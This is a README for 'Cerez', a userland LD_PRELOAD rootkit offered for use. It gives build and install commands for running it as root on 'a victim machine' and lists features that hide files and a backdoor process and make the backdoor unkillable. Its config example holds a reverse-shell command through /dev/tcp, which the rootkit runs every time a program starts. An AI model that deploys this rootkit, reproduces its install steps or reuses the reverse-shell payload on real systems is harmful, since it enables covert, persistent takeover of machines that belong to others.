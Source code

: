 <h1 align="center">
  <img src="assets/showcase.png"/>  
  <br>
  <br>
  Cerez 😈 A simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls and functions like `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 

## Install 
> **Warning**
> Don't forget to edit `cerez.cfg` before install 

### You will need to install `build-essential` and `libconfig` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential libconfig-dev
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```

## Config `(/etc/cerez.cfg)`
Configuration is (really) simple, in the `backdoor` section,
leave your backdoor/malicious command, this will be run by the rootkit everytime a program starts (if its not already running).
Your backdoor will be hidden in the process list. It will 
be also unkillable.

In the `hidden` section, specify full paths for all the files that you want hidden.
```
backdoor = "bash -c 'bash -i >& /dev/tcp/<ip>/1234 0>&1'"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
);
```

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
